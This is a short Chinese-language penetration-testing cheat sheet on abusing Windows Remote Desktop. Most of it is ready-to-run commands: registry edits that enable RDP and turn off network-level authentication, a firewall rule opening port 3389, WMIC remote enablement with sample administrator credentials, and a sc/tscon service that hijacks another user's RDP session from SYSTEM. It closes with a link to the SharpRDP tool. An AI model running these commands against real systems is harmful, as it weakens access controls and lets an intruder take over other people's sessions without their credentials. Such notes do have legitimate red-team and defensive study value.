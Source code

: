 # 远程桌面利用

#### 远程桌面开启

开启远程桌面连接功能

```
reg add "HKLM\SYSTEM\CurrentControlset\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

关闭"仅运行网络级别身份验证的远程桌面的计算机连接"

```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0
```

设置防火墙策略3389端口

```
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
```

**WMI远程开启(需要提前知道计算机名)：**

```
wmic /Node:10.10.10.22 /User:Administrator /PassWord:P@SSw0rd! RDTOGGLE WHERE ServerName='Web-2' call SetAllowConnections 1
```

#### RDP Hijacking(会话劫持)

* 攻击者可以通过可以特权提升至 SYSTEM 权限的用户，可以在不知道其他用户登录凭据的情况下，用来劫持其他用户的 RDP 会话
* 利用条件只需要获取机器system权限执行tscon命令

创建劫持用户会话的服务

```
sc create rdp binpath= "cmd.exe /k tscon 2 /dest:console"
sc qc rdp  
sc start rdp
```

**SharpRDP**

https://github.com/0xthirteen/SharpRDP

用于执行经过身份验证的命令的远程桌面协议控制台应用程序
